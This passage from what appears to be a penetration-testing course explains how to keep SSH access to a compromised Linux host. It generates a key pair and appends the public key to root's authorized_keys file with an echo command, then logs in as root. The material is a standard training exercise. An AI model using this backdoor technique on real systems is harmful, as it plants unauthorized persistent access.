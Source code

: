 Note that we used the command 'chmod 600 id\_rsa' on the key after we created it on our machine to change the file's permissions to be more restrictive. If ssh keys have lax permissions, i.e., maybe read by other people, the ssh server would prevent them from working.

If we find ourselves with write access to a users `/.ssh/` directory, we can place our public key in the user's ssh directory at `/home/user/.ssh/authorized_keys`. This technique is usually used to gain ssh access after gaining a shell as that user. The current SSH configuration will not accept keys written by other users, so it will only work if we have already gained control over that user. We must first create a new key with `ssh-keygen` and the `-f` flag to specify the output file:

```shell
ssh-keygen -f key

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): *******
Enter same passphrase again: *******

Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:...SNIP... user@parrot
The key's randomart image is:
+---[RSA 3072]----+
|   ..o.++.+      |
...SNIP...
|     . ..oo+.    |
+----[SHA256]-----+

```

This will give us two files: `key` (which we will use with `ssh -i`) and `key.pub`, which we will copy to the remote machine. Let us copy `key.pub`, then on the remote machine, we will add it into `/root/.ssh/authorized_keys`:

```shell
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys

```

Now, the remote server should allow us to log in as that user by using our private key:

```shell
ssh [email protected] -i key

root@remotehost#

```

As we can see, we can now ssh in as the user `root`. The [Linux Privilege Escalation](https://academy.hackthebox.com/module/details/51) and the [Windows Privilege Escalation](https://academy.hackthebox.com/module/details/67) modules go into more details on how to use each of these methods for Privilege Escalation, and many others as well.


# Transferring Files
